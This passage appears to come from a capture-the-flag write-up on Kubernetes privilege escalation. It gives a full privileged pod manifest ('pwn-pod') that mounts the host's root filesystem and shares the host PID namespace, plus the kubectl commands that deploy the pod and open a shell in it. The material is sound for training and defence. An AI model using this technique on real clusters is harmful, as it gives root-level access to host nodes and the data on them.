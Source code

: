 To gain deeper access, we create a privileged pod to potentially escalate privileges within the cluster. We define the following pod specification in `privpod.yml`:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pwn-pod
  namespace: ci-build
spec:
  hostPID: true
  containers:
  - name: pwn
    image: alpine
    securityContext:
      privileged: true
    command: ["/bin/sh"]
    args: ["-c", "sleep 3600"]
    volumeMounts:
    - mountPath: /host
      name: host-root
  volumes:
  - name: host-root
    hostPath:
      path: /
      type: Directory
```

We apply the pod configuration:

```bash
KUBECONFIG=kubeconfig.yml kubectl apply -f privpod.yml
```

**Output:**
```
pod/pwn-pod created
```

The pod is successfully created in the `ci-build` namespace.

### Executing into the Privileged Pod

With the pod running, we exec into it to explore the host filesystem:

```bash
KUBECONFIG=/tmp/kubeconfig.yml kubectl exec -it pwn-pod -n ci-build -- /bin/sh
```

![secdojo](./images/k8s-flag.png)

